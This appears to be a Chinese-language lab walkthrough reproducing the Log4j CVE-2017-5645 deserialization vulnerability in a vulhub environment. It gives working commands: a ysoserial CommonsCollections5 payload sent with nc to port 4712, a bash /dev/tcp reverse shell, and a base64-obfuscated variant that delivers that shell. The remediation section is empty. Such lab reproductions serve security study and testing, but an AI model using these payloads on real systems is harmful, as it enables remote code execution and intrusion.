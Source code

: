 # Apache Log4j Server 反序列化命令执行漏洞（CVE-2017-5645）



### 1.1、漏洞描述

攻击者可以通过发送一个特别制作的2进制payload，在组件将字节反序列化为对象时，触发并执行构造的payload代码。该漏洞主要是由于在处理ObjectInputStream时，接收函数对于不可靠来源的input没有过滤。可以通过给TcpSocketServer和UdpSocketServer添加可配置的过滤功能以及一些相关设置，可以有效的解决该漏洞。


### 1.2、漏洞等级

漏洞危害评分：7.5，攻击者可利用该漏洞执行任意代码。

### 1.3、影响版本

 Apache Log4j 2.8.2之前的2.x版本

### 1.4、漏洞复现

#### 1、基础环境

kali环境IP地址：192.168.8.8

Path：vulhub/log4j/CVE-2017-5645

---

启动测试环境：

```bash
sudo docker-compose up -d
```



#### 2、漏洞扫描

#### 3、漏洞验证

扫描目标开启的端口

![image-20231011204237032](./imgs/image-20231011204237032.png)

> ysoserial是在常见的java库中发现的一组实用程序和面向属性的编程“小工具链”，在适当的条件下，可以利用执行对象不安全反序列化的Java应用程序。主驱动程序接受用户指定的命令，并将其封装在用户指定的小工具链中，然后将这些对象序列化为stdout。当类路径上具有所需小工具的应用程序不安全地反序列化该数据时，将自动调用该链并导致在应用程序主机上执行该命令。
>
> ysoserial项目地址：
>
> https://github.com/frohoff/ysoserial

下载打包好的jar文件到我们的kali主机上

![image-20231011204354684](./imgs/image-20231011204354684.png)

```java
java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/saury" | nc 192.168.8.8 4712
```

![image-20231011204804804](./imgs/image-20231011204804804.png)

### 1.5、深度利用

#### 1、反弹Shell

```bash
bash -i >& /dev/tcp/192.168.8.8/6868 0>&1
```

将反弹shell进行[base64编码](https://base64.us/)

![image-20231011204944129](./imgs/image-20231011204944129.png)

```bash
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguOC82ODY4IDA+JjE=
```

shell反弹

```bash
java -jar ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguOC82ODY4IDA+JjE=}|{base64,-d}|{bash,-i}" | nc 192.168.8.8 4712
```

![image-20231011205533484](./imgs/image-20231011205533484.png)

![image-20231011205553706](./imgs/image-20231011205553706.png)



### 1.6、修复建议
